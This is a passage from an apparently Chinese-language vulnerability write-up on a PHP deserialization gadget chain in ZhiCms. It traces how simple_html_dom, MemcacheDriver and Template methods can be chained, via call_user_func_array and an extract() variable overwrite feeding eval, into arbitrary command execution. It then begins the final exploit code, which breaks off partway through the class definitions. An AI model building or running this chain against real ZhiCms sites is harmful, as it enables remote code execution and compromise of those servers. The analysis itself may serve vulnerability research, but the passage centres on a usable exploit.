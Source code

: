 ```plain

            if( $return ){
                $content = ob_get_contents();
                ob_end_clean();
                return $content;
            }
        }   
}
```

分析

```plain
simple_html_dom 的__destruct() 方法调用了 clear() 方法，但是 clear() 方法中存在这样一段代码

if (isset(this->parent->clear(); unset($this->parent);}

然后$this->parent 变量是可控的，我们可以利用这里去调用 MemcacheDriver 类中的 clear() 方法

return  $this->mmc->set($this->group.'_ver', $this->ver+1); 

而 MemcacheDriver 的 clear() 方法中将$this->group 拼接字符串'_ver',所以可以触发 simple_html_dom_node 中的__toString() 方法
simple_html_dom_node 的__toString() 方法调用了 outertext() 方法，而这个方法中存在 call_user_func_array() 函数可以调用匿名函数

if ($this->dom && $this->dom->callback!==null){call_user_func_array($this->dom->callback, array($this));}

仔细分析这一段代码，如果$this->dom 和$this->dom->callback 存在，就将$this->dom->callback 作为回调函数调用，这里已经可以执行 phpinfo 了，继续往下走
可以找到 Template 中的 display 函数

extract($this->vars, EXTR_OVERWRITE);
eval('?>' . $this->compile( $tpl, $isTpl));

调用了 complie() 方法，然后将返回值拼接在<?的后面再给 eval 函数当作代码执行
再看看 complie() 方法

public function compile( $tpl, $isTpl = true ) {略}

这个方法其实就是模板化一串字符串，当传入的$isTpl 为 true 的时候就对传入的$tpl 进行修改，但是当$isTpl 变量为 false 的时候就不进行修改
这里的$tpl 和$isTpl 实际上是不可控的，但是 display() 方法中还有一段

extract($this->vars, EXTR_OVERWRITE);

$this->vars 变量是可控的，所以这里我们可以利用 extract() 的变量覆盖将$tpl 和$isTpl 覆盖为我们想要的值，就可以实现任意命令执行
```

最终`exp`​

```plain
<?php
namespace ZhiCms\base;
class Cache{
    protected $config =array();
    protected $cache = 'default';
    public $proxyObj=null;
    public $proxyExpire=1800;
    public function __construct(){
        $this->config = array("CACHE_TYPE"=>"FileCache","MEM_GROUP"=>"tpl");
    }
}
class Template {
    protected $config =array();
    protected $label = null;
```